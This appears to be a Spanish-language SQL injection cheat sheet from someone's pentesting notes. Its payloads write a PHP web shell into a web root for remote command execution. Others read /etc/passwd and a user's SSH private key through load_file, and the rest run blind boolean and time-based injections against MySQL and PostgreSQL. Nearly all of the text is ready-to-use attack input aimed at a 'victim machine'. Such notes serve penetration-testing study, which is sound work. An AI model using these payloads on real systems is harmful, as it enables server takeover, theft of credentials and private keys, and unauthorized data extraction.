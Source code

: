 ## Subir un archivo a una ruta especifica en la maquina victima

```bash 
# Subir un achivo que contiene codigo PHP malicioso en una ruta especifica para hacer ejecucion remota de comandos 'RCE' 

❯ ' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/shell.php" 

# Ahora vamos a la ruta y con el archov que hemos subido, podemos ejecutar comandos de la siguiente manera:
	shell.php?cmd=whoami
# Podemos meter los comandos pra crear la 'Revershell'
```

## Leer (cargar) archivos de la maquina victima 

```bash 
❯ ' union select load_file("/etc/passwd")-- -                  # Leer el '/etc/passwd' de la maquina victima 
❯ ' union select load_file("/home/user/.ssh/id_rsa")-- -       # Leer el 'id_rsa' del usuario de la maquina victima
```

## Blind Boolean

```bash 
# En este tipo de inyecciones te devuelve '1 = True', '0 = False', o sea, o se muestra o no se muestra 

❯ and 1=1 

# Forma: (Sentencia, 1, 0)=1, primero indicamos la sentencia, luego indicamos que queremos que devuelva si es verdadero (o sea 1), por ultimo que queremos que devuelva si es falso (o sea 0) 
❯ and (if(2>1,1,0))=1       # Indicamos que 2>1, si esto es verdad entonces nos devolvera 1, por lo tanto 1=1 = True
❯ and (if(0>1,1,0))=1       # Indicamos que 0>1, como esto no es verdad entonces nos devolvera 0, por lo tanto 0=1 = False

❯ and ( if( substring(database(),1,1)='p' ,1,0))=1       # Indicamos que la primer letra de la base de datos es igual a 'p', si esto es verdad entonces entonces devolvera un 1, por lo que tendriamos 1=1 = True. El numero que debemos ir variando es el primer 1 que se encuentra al lado de 'database()' ya que este numero es el encargado de moverse al siguiente caracter en el nombre de la DB a buscar. 
	❯ and ( if( substring(database(),2,1)='r' ,1,0))=1
```

## Blind Time 

```bash 
# Con un 'sleep' podemos suponer que la inyeccion es de tipo 'Blind' en MYSQL

❯ ' and sleep(5)-- -                                  # Haremos que tarde en responder la web 5 segundos
❯ ' or sleep(5)-- -                                   # Haremos que tarde en responder la web 5 segundos

❯ and (select sleep(5) from <table_name> where substring(database(),1,1)='p' limit 0,1) 
# Tardara 5 segundos si la primer letra de la primer DB es igual a 'p'
	# limit 0,1 = Comparar con la primer DB

❯ ' || pg_sleep(5) -- -                               # Inyeccion de tiempo para DB PostgreSQL
```
